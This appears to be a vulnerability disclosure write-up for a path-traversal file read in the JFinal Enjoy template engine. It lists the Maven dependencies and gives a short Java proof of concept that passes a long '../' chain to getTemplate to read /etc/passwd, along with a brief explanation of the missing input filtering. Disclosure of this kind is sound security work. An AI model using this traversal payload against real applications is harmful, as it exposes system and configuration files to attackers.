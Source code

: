 # jfinal tempalte(enjoy) file read

# Config

```maven
 <dependencies>
        <dependency>
            <groupId>junit</groupId>
            <artifactId>junit</artifactId>
            <version>3.8.1</version>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>com.jfinal</groupId>
            <artifactId>jfinal</artifactId>
            <version>5.2.4</version>
        </dependency>
        <dependency>
            <groupId>com.jfinal</groupId>
            <artifactId>jfinal-undertow</artifactId>
            <version>3.7</version>
        </dependency>
        <dependency>
            <groupId>com.jfinal</groupId>
            <artifactId>cos</artifactId>
            <version>2022.2</version>
        </dependency>
    </dependencies>
```

# Recurrence process

```
Engine engine = new Engine();
Template template = engine.getTemplate("../../../../../../../../../../../../../../../../../../../../../etc/passwd");
System.out.println(template.renderToString());
```

![img.png](/imgs/jfinal-vul1-1.png)

[//]: # (/Users/qinchenkai/go/cve_detail/imgs)
## detail:

When the file is read, it is spliced and rendered directly without any filtering.

This can only read from the classPath, but fortunately there may be configuration or source code in the ClassPath
![](/imgs/9b4466ba.png)

![](/imgs/49a28e4a.png)


![](/imgs/3db1bd4e.png)

Because the enjoy engine is built into jfinal, arbitrary file reads can occur when the templates in jfinal are controllable

![](.jfinal_enjoy_file_read_images/108d18f9.png)

![](.jfinal_enjoy_file_read_images/1daa97a5.png)
